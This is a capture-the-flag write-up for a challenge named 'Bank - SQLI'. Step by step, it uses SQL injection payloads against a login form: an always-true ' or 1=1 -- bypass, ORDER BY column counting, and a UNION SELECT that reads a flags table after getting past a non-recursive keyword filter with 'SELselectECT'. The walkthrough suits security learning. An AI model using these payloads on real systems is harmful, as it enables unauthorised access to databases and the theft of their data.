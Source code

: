 # Bank - SQLI

A clue is given to look at the flags table
`Try looking in the flags table. Columns: flag, value`

Putting in any input into the login form spits out the query we are manipulating.

`SELECT * FROM users WHERE username='myInput' AND password='myInput';`
Where `myInput` is the values we insert into the username and password field.

The first step is to try and break the query/find the database language we are using.
Adding in `'a` in both fields give 

`Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in /var/www/html/login.php on line 50`

MySQL uses `--` as its comment syntax. We can now leak the users table through inputting `' or 1=1 -- ` in the username.

The next step is to figure out the number of columns that we take from the users table
We can do that through trial and error, by using `ORDER BY 1-- ` to our existing leak. The last working query is `' or 1=1 ORDER BY 3 -- ` Indicating that there are 3 columns in our first query.

We then UNION our second query for flags while match the number of columns

`' or 1=1 union SELECT flag, value, null from flags;-- `

BUT we find that our SELECT disappears.

`SELECT * FROM users WHERE username='' or 1=1 union flag, value, null from flags;-- ' AND password='1';`

We can conclude that there is some filtering happening.

We test if the filtering is recursive

`' or 1=1 union SELselectECT flag, value, null from flags;-- `

And its not which gives us our flag.

flag{3min3m_kind@_wa$hed}